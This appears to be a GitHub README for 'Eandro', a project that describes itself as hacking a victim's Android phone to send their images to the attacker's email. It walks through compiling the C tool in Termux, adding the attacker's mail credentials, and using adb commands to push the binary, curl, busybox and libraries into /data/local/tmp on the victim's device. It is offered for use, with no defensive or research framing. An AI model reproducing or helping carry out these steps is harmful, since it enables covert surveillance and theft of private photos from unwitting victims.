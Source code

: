# Eandro

Eandro is a Hacking Project to Automatical send Image of victim to Your Mail ID

Things You Need Above files
Copy Everything to your sdcard OR to your computer .

Make Sure adb Works either in Computer or Mobile Phone

1 . Install adb in Android or Computer
2 . Download Files that i Provided
3 . Download Eandro.c code to your Mobile or computer
4 . And here tough part comes install clang in Android or computer 
5 . To install clang in android install Termux in Android and type "apt install clang" without quotes.
6 . After install the c Compiler compile the code that i gave change the email and password and also from and to mail addresses
7 . To compile c code in android copy the /data/data/com.termux/files/home/ i.e Home Directory and type "gcc eandro.c -o eandro" [ Without Quotes ]
8 . Next you need to push all files and compiled binaryfile to /data/local/tmp/ of the Victims Mobile

To Push the Files you need to follow the steps

In Android : Below Command are steps to push the files to Victims Mobile if adb supports to your mobile i included adb binary file here download it

I suggest to download Termux and install certain packages 

apt install git 
apt install clang

after successfully installtion of these two proceed following steps

cd /data/data/com.termux/files/home/
git clone git@github.com:maddalakum/Eandro.git
cd /data/data/com.termux/files/home/Eandro/lib64/ ; 
adb shell "if [ ! -d /data/local/tmp/lib64 ] ; then mkdir /data/local/tmp/lib64 ; chmod 777 /data/local/tmp/lib64;fi " ; 
for i in `ls`; do  adb push $i /data/local/tmp/lib64/ ; done ; 
adb push ../curl /data/local/tmp/ ; 
adb push ../busybox /data/local/tmp/

In Computer download the Zip file place the file in desktop and unzip and push the files normall as i said to android

Watch My Video to how to do it 

https://www.youtube.com/channel/UCYgXhhbtAuFHOKsNDujcxzQ
